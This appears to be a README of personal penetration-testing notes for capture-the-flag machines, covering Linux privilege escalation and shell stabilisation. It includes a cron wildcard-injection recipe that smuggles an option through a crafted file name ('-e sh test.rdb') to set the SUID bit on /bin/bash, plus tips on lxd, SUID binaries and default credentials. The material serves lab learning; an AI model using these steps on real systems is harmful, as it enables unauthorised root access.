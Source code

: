 If a cronjob is executing binaries that you can access, then this is an open port for a priv escalation.
Also, we need to verify if there's any wildcards on the file, this is very dangerous because the wildcard can be anything. `/bin/bash -p` for example. 

```bash
echo 'chmod u+s /bin/bash' > test.rdb
touch -- '-e sh test.rdb'
watch -n 1 ls -l /bin/bash
bash -p
```

Always look for lxd user, we can always get root with that user.

# Tips

Always check where are all the important files of any service, we can google that though...

When you can't access the page, maybe is the DNS
```bash
sudo echo "IP domain.subdomain.htb" >> /etc/hosts 
sudo echo "IP subdomain.htb" >> /etc/hosts 
```

`Always check for default creds.`

`Always check if there's a SUID binary that YOU can access and change`

`Always check the Apache logs, this can be found at /var/log`

`If you got creds TRY every possible login.`

# Exploitation
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```bash
script /dev/null -c bash
```
```bash
CTRL Z
stty raw -echo;fg
reset
```
```bash
export TERM=xterm 
```
or
```bash
export TERM=screen
```
```bash
export SHELL=bash
```
